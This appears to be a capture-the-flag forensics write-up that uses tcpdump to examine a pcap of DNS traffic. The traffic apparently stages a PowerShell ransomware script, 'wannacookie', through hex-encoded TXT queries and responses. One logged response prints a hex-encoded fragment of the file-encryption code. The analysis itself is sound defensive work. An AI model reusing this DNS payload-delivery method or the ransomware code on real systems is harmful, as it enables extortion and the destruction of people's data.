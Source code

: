 Ok, first let's do some preliminary checks on the capture:

```
elf@c49c257ae0c6:~$ tcpdump -nnq -r snort.log.pcap  | wc -l
reading from file snort.log.pcap, link-type IPV4 (Raw IPv4)
390

elf@c49c257ae0c6:~$ tcpdump -nnq -r snort.log.pcap port 53 | wc -l
reading from file snort.log.pcap, link-type IPV4 (Raw IPv4)
390

elf@c49c257ae0c6:~$ tcpdump -r snort.log.pcap  | head
reading from file snort.log.pcap, link-type IPV4 (Raw IPv4)
19:42:23.094039 IP 10.126.0.125.46818 > twiga.telkom.co.ke.domain: 40558+ TXT? 77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (70)
19:42:23.104211 IP twiga.telkom.co.ke.domain > 10.126.0.125.46818: 40558*- 1/0/0 TXT "64" (137)
19:42:23.114369 IP 10.126.0.98.33580 > 150.185.71.77.domain: 14853+ TXT? 77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (67)
19:42:23.124530 IP 150.185.71.77.domain > 10.126.0.98.33580: 14853*- 1/0/0 TXT "64" (131)
19:42:23.134706 IP 10.126.0.20.11407 > yandex.ru.domain: 59582+ TXT? trilaurin.fosterhood.yandex.ru. (48)
19:42:23.144906 IP yandex.ru.domain > 10.126.0.20.11407: 59582*- 1/0/0 TXT "thiamid4" (99)
19:42:23.155119 IP 10.126.0.98.43720 > 150.185.71.77.domain: 37420+ TXT? 0.77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (69)
19:42:23.165267 IP 150.185.71.77.domain > 10.126.0.98.43720: 37420*- 1/0/0 TXT "2466756e6374696f6e73203d207b66756e6374696f6e20655f645f66696c6528246b65792c202446696c652c2024656e635f697429207b5b627974655b5d5d246b6579203d20246b65793b24537566666978203d2022602e77616e6e61636f6f6b6965223b5b53797374656d2e5265666c656374696f6e2e417373656d626c" (387)
```

The capture contains 390 dns packets (requests and responses), and at a first glance there are some standard request and some suspicious ones: 
```
19:42:23.114369 IP 10.126.0.98.33580 > 150.185.71.77.domain: 14853+ TXT? 77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (67)
19:42:23.094039 IP 10.126.0.125.46818 > twiga.telkom.co.ke.domain: 40558+ TXT? 77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (70)
```
The domain is different, but the subdomain is the same, let's filter it:
```
tcpdump -r snort.log.pcap  | grep "77616E6E61636F6F6B69652E6D696E2E707331" | head
reading from file snort.log.pcap, link-type IPV4 (Raw IPv4)
19:42:23.094039 IP 10.126.0.125.46818 > twiga.telkom.co.ke.domain: 40558+ TXT? 77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (70)
19:42:23.114369 IP 10.126.0.98.33580 > 150.185.71.77.domain: 14853+ TXT? 77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (67)
19:42:23.155119 IP 10.126.0.98.43720 > 150.185.71.77.domain: 37420+ TXT? 0.77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (69)
19:42:23.175545 IP 10.126.0.125.35545 > twiga.telkom.co.ke.domain: 13425+ TXT? 0.77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (72)
19:42:23.216468 IP 10.126.0.125.49427 > twiga.telkom.co.ke.domain: 51838+ TXT? 1.77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (72)
19:42:23.257327 IP 10.126.0.98.63089 > 150.185.71.77.domain: 1017+ TXT? 1.77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (69)
19:42:23.277667 IP 10.126.0.125.45430 > twiga.telkom.co.ke.domain: 49271+ TXT? 2.77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (72)
19:42:23.318375 IP 10.126.0.98.12856 > 150.185.71.77.domain: 18500+ TXT? 2.77616E6E61636F6F6B69652E6D696E2E707331.buegrr.org. (69)
19:42:23.359164 IP 10.126.0.125.48422 > twiga.telkom.co.ke.domain: 27507+ TXT? 3.77616E6E61636F6F6B69652E6D696E2E707331.ubeagrhnrs.ru. (72)

elf@c49c257ae0c6:~$ tcpdump -r snort.log.pcap  | grep "77616E6E61636F6F6B69652E6D696E2E707331" | wc -l
reading from file snort.log.pcap, link-type IPV4 (Raw IPv4)
130
```